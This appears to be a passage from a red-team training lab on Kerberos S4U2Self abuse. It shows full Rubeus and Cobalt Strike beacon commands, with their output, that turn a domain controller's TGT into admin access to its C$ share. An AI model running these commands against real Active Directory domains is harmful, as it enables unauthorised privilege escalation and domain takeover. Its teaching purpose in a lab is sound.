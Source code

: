 As we saw in the previous two examples of constrained delegation, there are two S4U (Service for User) extensions.  S4U2Self (Service for User to Self) and S4U2Proxy (Service for User to Proxy).  S4U2Self allows a service to obtain a TGS to itself on behalf of a user, and S4U2Proxy allows the service to obtain a TGS on behalf of a user to a second service.

When we abused constrained delegation, we did: Rubeus `s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /user:sql-2$`.  From the output, we saw Rubeus first builds an S4U2Self request and obtains a TGS for nlamb to sql-2/dev.cyberbotic.io.  It then builds an S4U2Proxy request to obtain a TGS for nlamb to cifs/dc-2.dev.cyberbotic.io.

This is obviously working by design because SQL-2 is specifically trusted for delegation to that service.  However, there's another particularly useful way, published by [Elad Shamir](https://twitter.com/elad_shamir), to abuse the S4U2Self extension - and that is to gain access to a computer if we have its TGT.

In the Unconstrained Delegation module, we obtained a TGT for the domain controller.  If you tried to pass that ticket into a logon session and use it to access the C$ share (like we would with a user TGT), it would fail.

```bash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:DC-2$ /password:FakePass /ticket:doIFuj[...]lDLklP

[*] Using DEV\DC-2$:FakePass

[*] Showing process : False
[*] Username        : DC-2$
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2832
[+] Ticket successfully imported!
[+] LUID            : 0x4d977f

beacon> steal_token 2832

beacon> ls \\dc-2.dev.cyberbotic.io\c$
[-] could not open \\dc-2.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```

This is because machines do not get remote local admin access to themselves.  What we can do instead is abuse S4U2Self to obtain a usable TGS as a user we know _is_ a local admin (e.g. a domain admin).  Rubeus has a `/self` flag for this purpose.

```bash

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

[*] Action: S4U

[*] Building S4U2self request for: 'DC-2$@DEV.CYBERBOTIC.IO'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Sending S4U2self request to 10.10.122.10:88
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/dc-2.dev.cyberbotic.io'
[*] Got a TGS for 'nlamb' to 'cifs@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

doIFyD[...]MuaW8=

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2664
[+] Ticket successfully imported!
[+] LUID            : 0x4ff935

beacon> steal_token 2664

beacon> ls \\dc-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 15:44:08   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 16:09:55   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 10:51:51   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     09/05/2022 17:17:48   ProgramData
          dir     08/15/2022 15:23:23   Recovery
          dir     08/16/2022 12:37:38   Shares
          dir     09/05/2022 12:03:43   System Volume Information
          dir     08/15/2022 15:24:39   Users
          dir     09/06/2022 15:21:25   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 1kb      fil     08/15/2022 16:16:13   dc-2.dev.cyberbotic.io_sub-ca.req
 12kb     fil     09/05/2022 07:25:58   DumpStack.log
 12kb     fil     09/06/2022 09:04:41   DumpStack.log.tmp
 384mb    fil     09/06/2022 09:04:41   pagefile.sys
```